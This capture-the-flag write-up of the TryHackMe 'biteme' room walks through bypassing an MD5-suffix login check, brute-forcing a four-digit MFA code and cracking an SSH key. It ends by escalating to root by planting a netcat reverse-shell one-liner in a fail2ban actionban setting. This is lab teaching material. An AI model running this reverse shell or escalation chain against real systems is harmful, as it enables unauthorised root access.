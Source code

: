 # biteme

https://tryhackme.com/room/biteme

This was quite a fun room! Took a while to get the foothold, then root was non trivial, in both cases because I had to learn something! Best kind of room.

1. Initial scans revealed only 22 and 80. On 80, there was just the default page; a quick ffuf revealed `/console` as where the action was going to happen.
2. At `/console/index.php` I needed to enter a username and password, along with a captcha. The Captcha seemed legitimate, using PHP securimage, meaning brute forcing this login would be impossible, or at least very difficult.
3. However, there was some curious Javascript in the page that would post a log message just before submitting (so you wouldn't see it unless interception is on in burp):

  ```html
  <script>
  function handleSubmit() {
    eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
    return true;
  }
  </script>
  ```
  
The message was 'fred, i turned on php file syntax highlighting for you to review'. Reading up on this, this was a thing in PHP where functions highlight_file and highlight_string could be used to render a PHP file with syntax highlighting. When the output is saved as a file, typically the PHPS extension is used.

4. I used ffuf again to search to phps files, and found the `index.phps`, `config.phps` and `functions.phps`. These revealed that there was a single valid username, and that the password would only be checked insofar that it's md5hash must end with `001`.

5. I wrote a quick go script to compute a possible password value:

  ```go
  package main

  import (
    "crypto/md5"
    "fmt"
    "strings"
  )

  func main() {
    n := 1
    for true {
      toTest := fmt.Sprintf("%d", n)
      result := fmt.Sprintf("%x", md5.Sum([]byte(toTest)))
      if strings.HasSuffix(result, "001") {
        fmt.Println(toTest)
        break
      }
      n++
    }
  }
  ```
  
  With the output of this and the username I was able to login, being redirected to `mfa.php`.
  
6. For mfa.php, there was no phps file. It asked for a four digit code that had been 'sent to my email'. Looking around, another log message was briefly posted on submit just like with the login page. This one said 'we need to implement brute force protection'.
7. I used burp intruder to brute force this form with all values from `0000` to `9999`. This got me past this page.
8. The final webpage, the `dashboard.php`, allowed me to view and read files from the filesystem, presumably limited to the jason user's permissions. I located and read a private SSH key for jason.
9. The key was encrypted, so using `ssh2john.py`, john the ripper and the rockyou wordlist I searched for and found the passphrase. I was then able to SSH in as john and get the first flag.
10. John could run ALL as root, but I needed his password. However, he could also run ALL as Fred without a password so I switched to fred with `sudo -u fred -i`
11. Fred could restart the fail2ban service, which was running as root. I didn't know much about this, but had a vague memory of being able to customise actions used by fail2ban.
12. Enumerating the /etc/fail2ban/action.d folder, I found `iptables-multiport.conf` was owned by Fred. In here, I changed the actionban action (I tried using actionstart but it didnt work) to invoke a reverse shell back to my attack box:

  ```
  # Option:  actionban
  # Notes.:  command executed when banning an IP. Take care that the
  #          command is executed with Fail2Ban user rights.
  # Tags:    See jail.conf(5) man page
  # Values:  CMD
  #
  actionban = rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.128.47 4444 >/tmp/f
  ```

14. Restarting fail2ban, I started another terminal on my attack box and repeated attempted to log in over ssh with nonsense passwords. After my second try, the ban action was triggered and I got a reverse shell as root :)

So yes, quite a twisty room, with some good learnings!
